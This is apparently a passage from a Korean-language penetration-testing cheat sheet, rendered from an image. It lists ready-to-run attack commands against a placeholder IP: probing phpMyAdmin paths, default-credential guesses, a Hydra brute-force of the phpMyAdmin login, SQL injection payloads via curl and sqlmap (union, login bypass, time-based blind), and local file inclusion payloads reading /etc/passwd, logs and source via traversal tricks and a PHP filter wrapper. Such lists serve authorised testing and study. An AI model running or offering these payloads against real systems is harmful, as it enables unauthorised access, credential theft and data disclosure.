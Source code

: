 #### phpMyAdmin 발견시

```bash
# phpMyAdmin 접근
curl http://{IP}/phpmyadmin/
curl http://{IP}/pma/
curl http://{IP}/mysql/

# 기본 자격증명 시도
# Username: root, Password: (empty)
# Username: root, Password: root
# Username: admin, Password: admin

# 브루트포스
hydra -l root -P /usr/share/wordlists/rockyou.txt {IP} http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:Access denied"
```

### 💉 취약점별 테스트

#### SQL Injection 테스트

```bash
# GET 파라미터 SQLi 테스트
curl "http://{IP}/page.php?id=1'"
curl "http://{IP}/page.php?id=1' OR '1'='1'--"
curl "http://{IP}/page.php?id=1' UNION SELECT 1,2,3--"

# POST 파라미터 SQLi 테스트
curl -X POST -d "username=admin'--&password=anything" http://{IP}/login.php
curl -X POST -d "search=test' UNION SELECT 1,2,3--" http://{IP}/search.php

# Sqlmap 자동 테스트
sqlmap -u "http://{IP}/page.php?id=1" --dbs
sqlmap -u "http://{IP}/page.php?id=1" --current-db
sqlmap -r request.txt --dbs

# 시간 기반 Blind SQLi
curl "http://{IP}/page.php?id=1' AND (SELECT SLEEP(5))--"
```

#### LFI (Local File Inclusion) 테스트

```bash
# 기본 LFI 페이로드
curl "http://{IP}/page.php?file=../../../etc/passwd"
curl "http://{IP}/page.php?page=../../../etc/passwd"
curl "http://{IP}/index.php?include=../../../etc/passwd"

# Windows LFI
curl "http://{IP}/page.php?file=../../../windows/system32/drivers/etc/hosts"
curl "http://{IP}/page.php?file=C:\windows\system32\drivers\etc\hosts"

# 다양한 우회 기법
curl "http://{IP}/page.php?file=....//....//....//etc/passwd"
curl "http://{IP}/page.php?file=..%2f..%2f..%2fetc%2fpasswd"
curl "http://{IP}/page.php?file=/etc/passwd%00"

# 로그 파일 접근
curl "http://{IP}/page.php?file=../../../var/log/apache2/access.log"
curl "http://{IP}/page.php?file=../../../var/log/auth.log"

# PHP Wrapper 활용
curl "http://{IP}/page.php?file=php://filter/convert.base64-encode/resource=index.php"
```
